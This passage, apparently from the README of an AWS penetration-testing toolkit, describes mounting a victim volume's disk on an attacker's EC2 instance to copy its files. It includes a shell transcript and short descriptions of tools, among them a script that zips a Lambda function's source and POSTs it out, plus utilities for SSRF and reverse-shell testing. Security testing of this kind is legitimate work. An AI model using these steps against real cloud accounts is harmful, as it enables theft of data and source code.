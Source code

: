 ```
    1) List block devices mapped:
        # lsblk
    
    2) If above listing yielded mapped block device, e.g. xvdf, create a directory for it:
        # mkdir /exfiltrated

    3) Mount that device's volume:
        # mount /dev/xvdf1 /exfiltrated

attacker $ ssh ec2-user@18.206.230.190
[...]
ec2-user@ec2instance:~$ sudo -s
root@ec2instance:/home/ec2-user# lsblk
NAME    MAJ:MIN RM SIZE RO TYPE MOUNTPOINT
xvda    202:0    0  25G  0 disk 
└─xvda1 202:1    0  25G  0 part 
xvdf    202:80   0  25G  0 disk 
└─xvdf1 202:81   0  25G  0 part /
root@ec2instance:/home/ec2-user# mkdir /exfiltrated
root@ec2instance:/home/ec2-user# mount /dev/xvda1 /exfiltrated
root@ec2instance:/home/ec2-user# ls -l /exfiltrated
total 84
-rw-r--r--   1 root root     0 lip 31  2018 0
lrwxrwxrwx   1 root root     7 sie 17  2018 bin -> usr/bin
drwxr-xr-x   3 root root  4096 sie 17  2018 boot
drwxr-xr-x   4 root root  4096 sie 17  2018 dev
drwxr-xr-x 179 root root 12288 gru  4 16:37 etc
drwxr-xr-x   3 root root  4096 lis  4 16:18 home
[...]
```

- **`exfiltrateLambdaTasksDirectory.py`** - Script that creates an in-memory ZIP file from the entire directory `$LAMBDA_TASK_ROOT` (typically `/var/task`) and sends it out in a form of HTTP(S) POST request, within an `exfil` parameter. To be used for exfiltrating AWS Lambda's entire source code.

- **`find-exposed-resources.sh`** - Utterly simple script enumerating some of the resources that could be publicly shared which would count as a security misconfiguration.

- **`identifyS3Bucket.rb`** - This script attempts to identify passed name whether it resolves to a valid AWS S3 Bucket via different means. This script may come handy when revealing S3 buckets hidden behind HTTP proxies.

- **`pentest-ec2-instance`** - A set of utilities for quick starting, ssh-ing and stopping of a single temporary EC2 instance intended to be used for Web out-of-band tests (SSRF, reverse-shells, dns/http/other daemons).

